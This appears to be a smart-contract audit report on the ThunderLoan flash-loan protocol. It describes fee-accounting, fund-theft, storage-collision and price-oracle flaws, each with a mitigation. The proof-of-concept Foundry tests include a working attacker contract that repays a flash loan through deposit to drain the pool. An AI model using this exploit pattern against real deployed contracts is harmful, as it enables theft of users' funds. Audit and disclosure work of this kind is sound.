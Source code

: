 # Protocol Summary 
The ThunderLoan protocol is meant to do the following:

1. Give users a way to create flash loans
2. Give liquidity providers a way to earn money off their capital

Liquidity providers can `deposit` assets into `ThunderLoan` and be given `AssetTokens` in return. These `AssetTokens` gain interest over time depending on how often people take out flash loans!

# Executive Summary

## Issues found


| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 3                      |
| Medium   | 1                      |
| Low      | 0                      |
| Info     | 0                      |
| Total    | 4                      |
# Findings


## High

### [H-1] The incorrect implementation of `ThunderLoan::updateExchangeRate` in the deposit function leads the protocol to overestimate its fees, resulting in blocked redemptions and an inaccurate exchange rate.


**Description:**  In the ThunderLoan system, the `exchangeRate`is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it's  responsible for keeping track of how many fees to give to liquidity providers.

However, the  `deposit` function, updates this rate, without collecting any fees!

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) 
        revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
  
    @>  uint256 calculatedFee = getCalculatedFee(token, amount);
    @>  assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impacts to this bug.

1. The `redeem` function is blocked, because the protocol thinks the owed tokens is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers getting way more or less than deserved.

**Proof of Concept:**

1. LP deposits.
2. User takes out a flash loan.
3. It is now impossible for LP to redeem.

<details>
<summary>Proof of Code</summary>

Place the following in the `ThunderLoanTest.t.sol`

```javascript
function testRedeemAfterLoan() public setAllowedToken hasDeposits{
        //liquidityProvider deposits the asset
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        //user taking the flashloan
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        //liquidityProvider redeeming his assets as we
        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
    }
```
</details>

**Recommended Mitigation:** Remove the incorrectly updated exchange rate lines from `deposit`

```diff
  function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```




### [H-2] All the funds can be stolen if the flashloan is returned using `deposit()`

**Description:** The `flashloan` function checks to ensure that ending balance is always greater than the initial balance + fee (for borrowing).But this check is done using token.balanceOf(address(assetToken)).
Exploiting this vulnerability, an attacker can return the flashloan using the `deposit` function instead of `repay` function. This allows the attacker to mint AssetToken and subsequently redeem it using `redeem` function. This will result in  apparent increase in the Asset contract's balance and  the check will pass and the flashloan function doesn't revert.

```javascript
    uint256 endingBalance = token.balanceOf(address(assetToken));

```

**Impact:**  All the funds of the AssetContract can be stolen.


<details>
<summary>Proof of Code</summary>

**Place the following  test in the ThunderLoanTest.t.sol**

```javascript
    function testUserDepositInsteadOfRepayToStealFunds() public setAllowedToken hasDeposits{
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor =  new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();

        console.log("balance of dor contract",tokenA.balanceOf(address(dor))); //50157185829891086986
        console.log("balance of tokenA contract", address(tokenA).balance); //0
        console.log("amount borrowed + fee", 50e18 + fee); //50150000000000000000
        assert(tokenA.balanceOf(address(dor)) > 50e18 + fee);
    }

```


**Place the following contract  in the ThunderLoanTest.t.sol**

```javascript
contract  DepositOverRepay is  IFlashLoanReceiver{
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;
    constructor(address _thunderLoan){
        thunderLoan = ThunderLoan(_thunderLoan);
    }
    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /* params*/
    )
        external
        returns (bool)
        {
            s_token = IERC20(token);
            assetToken = thunderLoan.getAssetFromToken(IERC20(token));
            IERC20(token).approve(address(thunderLoan), amount +fee);
            thunderLoan.deposit(IERC20(token),amount+ fee);
            return true;
        }
    function redeemMoney() public{
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(s_token, amount);

    }
}
```

</details>

**Recommended Mitigation:** Add a check in `deposit` function to make it impossible to use it in the same block of the flash loan. For example registering the block.number in a variable in `flashloan` function and checking it in `deposit` function.

### [H-3] Mixing up variable location causes storage collisions in  `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`, freezing protocol

**Description:** `ThunderLoan.sol` has two variables in the following order:

```javascript 
    uint256 private s_feePrecision;
    uint256 private s_flashLoanFee; 
```

However, the upgraded contract `ThunderLoanUpgraded.sol` has them in a different order:

```javascript
    uint256 private s_flashLoanFee; 
    uint256 public constant FEE_PRECISION = 1e18;
```

Due to how solidity storage works, after the upgrade the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the position of storage variables, and removing storage variables for constant variables, breaks the storage location as well.

**Impact:** After the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means that users who take out flash loans right after an upgrade will be charged the wrong fee.

More importantly, the `s_currentlyFlashLoaning` mapping with storage in the wrong storage slot.

**Proof of Concept:**

<details>
<summary>PoC</summary>

Place the following into `ThunderLoanTest.t.sol`. 

```javascript
import {ThunderLoanUpgraded} from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.
function testUpgradeBreaks() public{
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = thunderLoan.getFee();
        vm.stopPrank();

        console.log("Fee Before:", feeBeforeUpgrade);
        console.log("Fee After:", feeAfterUpgrade);

        assert(feeBeforeUpgrade != feeAfterUpgrade);
}

```

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`

</details>

**Recommended Mitigation:** If you must remove the storage variable, leave it as blank as not to collide with the storage slots.

```diff
-   uint256 private s_flashLoanFee; 
-   uint256 public constant FEE_PRECISION = 1e18;
+   uint256 private s_blank;
+   uint256 private s_flashLoanFee;
+   uint256 public constant FREE_PRECISION = 1e18;
```


## Medium

### [M-1] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees. 

**Impact:** Liquidity providers will drastically reduced fees for providing liquidity. 

**Proof of Concept:** 

The following all happens in 1 transaction. 

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price. 
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`. 
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper. 
```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```
2. The user then repays the first flash loan, and then repays the second flash loan.



**Recommended Mitigation:** Consider using a manipulation-resistant oracle such as Chainlink.
